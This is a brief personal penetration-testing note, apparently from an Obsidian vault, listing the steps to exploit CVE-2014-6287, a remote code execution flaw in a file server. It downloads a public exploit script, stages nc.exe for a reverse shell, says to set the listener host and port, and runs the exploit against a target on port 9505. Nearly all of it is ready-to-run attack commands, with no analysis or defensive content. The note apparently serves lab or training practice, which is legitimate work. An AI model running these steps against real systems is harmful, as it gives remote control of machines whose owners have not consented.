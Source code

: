 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```
wget https://gist.githubusercontent.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9/raw/783473905951169e49afaf5958e89b23f5a8743f/cve-2014-6287.py
```

```
mkdir bin && cp /usr/share/windows-resources/binaries/nc.exe ./bin
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Update lhost and lport variables.

[[rlwrap]]

```
python cve-2014-6287.py $TARGET 9505
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
